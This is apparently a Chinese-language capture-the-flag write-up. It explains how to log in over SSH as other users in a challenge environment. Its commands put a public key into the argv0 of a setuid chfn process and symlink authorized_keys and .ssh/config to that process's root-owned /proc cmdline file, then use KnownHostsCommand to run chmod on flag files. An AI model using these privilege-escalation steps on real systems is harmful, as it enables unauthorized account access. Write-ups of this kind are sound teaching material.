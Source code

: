 尝试该命令后，ssh 意料之中地报告公钥登录失败。检查 sshd 的日志（自己部署一下题目环境），发现：

```
Could not open authorized keys '/home/guest/.ssh/authorized_keys': Permission denied
```

可见 sshd 以 admin1 身份读取 `authorized_keys` 时缺少权限。执行 `chmod 755 . .ssh` 即可修复。重新尝试公钥登录，仍然报错。检查日志发现：

```
Authentication refused: bad ownership or modes for file /home/guest/.ssh/authorized_keys
```

阅读 [`man sshd`](http://man.openbsd.org/sshd#FILES)，得知 `authorized_keys` 文件应当由要登录的用户（admin1）所有，或者由 root 所有，且不能对其他用户开放写入权限，否则 sshd 会忽略该文件。这就难办了。众所周知，Linux 下[普通用户不允许执行 `chown`](https://unix.stackexchange.com/q/27350)，我们不可能把 `authorized_keys` 的所有者转为 admin1 或者 root。

稍加思索，可以想到一种可能性，就是让 `authorized_keys` 变成符号链接，并指向一个由 root 所有的文件，后者对普通用户可读而不可写。

作为测试，找到符合上述条件的文件如 `/etc/passwd`，通过 `ln -s /etc/passwd .ssh/authorized_keys2` 创建符号连接，并尝试公钥登录。检查 sshd 日志，发现其确实读取了该文件。说明这种可能性是成立的。那么问题是如何控制这个文件的内容，使其包含 guest 的公钥。

既然文件由 root 所有，又要控制其内容，就涉及到提权。提权可以利用由 root 所有的、具有 setuid 权限的程序。普通用户运行这些程序时，进程的所有者将是 root。通过 `find / -perm -u=s -type f` 可以找到这样的程序，例如 `/usr/bin/chfn`。

但是这种程序并不具有修改任意文件的功能。那么问题是如何让其产生我们想要的文件。稍加思索，可以想到，根据一切皆文件的思想，任何进程都会在 `/proc/pid` 目录下产生一些与进程信息有关的文件。如果进程由 root 所有，那么这些文件也是 root 所有的，而且我们可以控制其中部分文件的内容。例如，`/proc/pid/cmdline` 保存了进程的 argv0，而 argv0 可以在执行程序时指定。

作为测试，执行 `bash -c "exec -a $'nyan\n' chfn" &`，检查 `/proc/$!/cmdline` 文件的所有者、权限和内容，发现该文件符合我们的全部要求。

综上所述，获取 Flag 1 的命令如下：

```sh
chmod 755 . .ssh
bash -c "exec -a $'$(cat .ssh/id_rsa.pub)\n' chfn" &
  # 文件结尾得有换行符
ln -sf /proc/$!/cmdline .ssh/authorized_keys2
ssh admin1@localhost chmod 666 /flag1
cat /flag1
```

用同样的方法就能登录 admin2。但是登录后不能直接访问 shell，而是执行 `/etc/guest.sh` 脚本，[这个脚本是无法绕过的](https://serverfault.com/a/823466)。该脚本又运行了 ssh，如果我们能改变 ssh 的行为，就能以 admin2 的身份执行任意命令，从而访问 `/flag2`。

ssh 会读取 admin2 家目录（也就是 guest 家目录）下的 `.ssh/config` 文件。阅读 [`man ssh_config`](http://man.openbsd.org/ssh_config#KnownHostsCommand)，可以找到 `KnownHostsCommand` 设置项，通过该设置可以执行任意命令。（有的设置项，如 `LocalCommand`，是不可用的，因为其中指定的命令会通过登录 shell 来运行，而登录 shell 是那个没有用的脚本，造成死循环。）

`config` 文件同样需要绕过权限检查。综上所述，获取 Flag 2 的命令如下：

```sh
bash -c "exec -a $'KnownHostsCommand /usr/bin/chmod 666 /flag2\n' chfn" &
  # 这里 chmod 得写完整路径
ln -sf /proc/$!/cmdline .ssh/config
ssh -F none admin2@localhost < /dev/null
  # -F none 防止这次执行时读取 .ssh/config
  # < /dev/null 防止其询问 nobody@localhost 的密码
cat /flag2
```
